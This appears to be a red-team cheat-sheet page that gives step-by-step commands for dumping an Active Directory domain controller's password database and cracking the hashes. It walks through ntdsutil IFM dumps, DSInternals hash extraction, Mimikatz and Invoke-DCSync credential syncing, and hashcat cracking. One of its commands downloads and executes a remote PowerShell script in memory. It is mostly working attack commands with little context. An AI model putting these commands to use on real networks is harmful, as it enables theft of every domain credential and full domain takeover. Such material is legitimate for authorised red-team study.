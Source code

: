 ## Domain Controller NTDS Dumping

### NTDSutil
```
ntdsutil
activate instance ntds
ifm
create full C:\audit
quit
quit
```
![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Images/Screen11.png?raw=true)

Then use DSInternals script to extract all the hashed from this dump.

```
// https://github.com/MichaelGrafnetter/DSInternals/releases/latest
​
Import-Module .\DSInternals.psd1
$key = Get-BootKey -SystemHiveFilePath '.\audit\registry\SYSTEM'
Get-ADDBAccount -All -DBPath '.\audit\Active Directory\ntds.dit' -BootKey $key | Format-Custom -View HashcatNT | Out-File hashes.txt -Encoding ascii
```
![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Images/Screen12.png?raw=true)

### Mimikatz
```
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:marvel.local /all /csv"'
```
![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Images/Screen13.png?raw=true)

### Invoke DCSync
```
// https://gist.githubusercontent.com/monoxgas/9d238accd969550136db/raw/7806cc26744b6025e8f1daf616bc359cb6a11965/Invoke-DCSync.ps1
​
IEX (New-Object Net.WebClient).DownloadString("https://gist.githubusercontent.com/monoxgas/9d238accd969550136db/raw/7806cc26744b6025e8f1daf616bc359cb6a11965/Invoke-DCSync.ps1");
Invoke-DCSync -PWDumpFormat
```

### Cracking
```
hashcat.exe -m 1000 -a 0 --username hashes.txt rockyou.txt
```
![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Images/Screen14.png?raw=true)

## Pivoting & Port Forwarding

